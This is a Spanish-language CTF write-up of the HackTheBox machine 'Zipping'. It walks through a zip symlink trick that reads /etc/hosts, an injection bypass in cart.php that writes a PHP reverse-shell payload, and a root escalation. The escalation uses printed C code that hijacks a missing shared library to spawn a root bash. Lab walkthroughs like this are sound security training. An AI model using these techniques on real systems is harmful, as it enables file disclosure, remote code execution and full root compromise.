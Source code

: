 # Zipping

Hola, hoy tengo una guia de una maquina de HackTheBox, en las cuales estaremos viendo explotación a partir de subida de archivos y secuestro de librerias para escalada de privilegios. Esta maquina ya la habia resuelto con el metodo del null byte en un archivo zip, pero esto fue parcheado hace unos meses así que mostraré un metodo alterno, por lo que me saltaré la parte de los escaneos

- Plataforma: [HackTheBox](https://app.hackthebox.com/home)
- Dificultad: Medium
- OS: Linux
- IP: 10.10.11.229

- Tenemos dos puertos abiertos, el 80 y 22, la pagina web tiene un apartado para subir archivos zip, nosotros crearemos un link simbolico a /etc/hosts de esta forma:
~~~ bash 
ln -s ../../../../../../etc/hosts document.pdf
zip --symlinks zip.zip document.pdf
~~~
- Ahora al subirlo vemos que hay conectividad y una respuesta por parte del servidor, por lo que podemos concluir que es vulnerable a LFI, devolviéndome una cadena de texto en base64:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/8fdb597e-5693-4c3b-bb56-ef9926e711af)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/055645c8-d1fe-42f9-a836-5bcdf9d735c4)

- También podemos comprobarlo bajando el archivo directamente:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/5cb00c9b-e1cf-4ecc-8f45-942bfefdebce)

- Para este punto me quedé sin ideas, hasta que se me ocurrió bajar algunos de los archivos que nos muestra como trabaja la aplicación por detrás, en cart.php encontré algo interesante, el valor de `product_id` parece estar intentando bloquear solicitudes con ciertos caracteres, solo aceptando algunos:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/f9e35c5a-6cc5-4143-8f05-51f50614b27d)

- Según HackTricks podemos ofuscar un payload a través de un bit nulo `%0A`, si tenemos exito deberiamos ver un codigo de redirección 302:
- Al parecer el servicio de mysql se ejecuta como root, por lo que podremos intentar utilizarlo para que ejecute nuestro payload:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/8b23d68c-dc25-41f7-8fa6-272d1f8809f9)
  - Y podemos ver que nos responde correctamente, por lo que intentaremos inyectar el payload a través de este metodo:
  - Primero, creamos nuestro payload, encondeando 2 veces en base64:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/5c2e9f4d-2ffa-4886-9a36-03d2d0b093ab)

- Después, creamos un archivo en php con la siguiente cadena:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/81fa0f62-3e77-46dc-95c3-4a487bc344ca)

- Y encodeamos este payload en base64 para así poder subirlo de la siguiente forma:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/aa944109-da87-4825-9642-71b3afe8c763)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/31001874-7fdf-4f8e-b107-d37ae16f9782)


- Perfecto, el archivo está subido y lo único que debemos hacer es tener un listener en nuestro puerto 4444 y solicitar en payload con GET:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/d233ffd4-c449-4d62-bf78-93555cd234a4)


***
<h3>PrivEsc</h3>

- Podemos encontrar un vector de ataque bastante rápido, al observar que podemos ejecutar un binario como sudo:
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/ad91c15f-388d-44aa-9807-f3343ca553a8)

  - Ejecutamos el binario y observamos que solicita una contraseña:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/691383d6-b937-4f41-9d11-10eaf5a25529)

- Llegó la hora de examinar el binario, primero que nada utilizaremos `strings`, podemos ver que es un binario compilado en C, además de lo que parece ser una contraseña:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/82c39cb2-2605-47dd-9b7f-518c4620feb2)

- Al ingresar la contraseña, el binario simplemente deja de funcionar, al parecer se congela. Intento analizarlo con `strace` durante su ejecución y podemos ver algo mas:
~~~bash
strace sudo /usr/bin/stock
~~~
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/b1da549f-88b7-4c60-aff9-efa2adfaa02a)
- Observamos que intenta llamar a una librería que no existe, por lo cual podemos reemplazar esta con una bash ejecutada desde un archivo C, que crearemos desde /tmp y compilaremos con gcc en la dirección donde debería estar
~~~ c 
#include <stdio.h>
#include <stdlib.h>
void false_lib() { system("/bin/bash"); } 
__attribute__((constructor)) void setup() { false_lib(); }
~~~
 - Este archivo ejecuta una bash a través de la función `setup` que se ejecutará automáticamente antes de la función `main` gracias al atributo `__attribute__((constructor))`, aprovechándonos de que se ejecutará como root, ganaremos privilegios instantáneamente.

   ~~~ bash 
   gcc -shared -o /home/rektsu/.config/libcounter.so -fPIC lib.c
   ~~~
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/d551ea10-aabf-456a-be4f-622465e13f97)

 - Y finalmente somos root :D. Podemos dar por concluida la maquina.
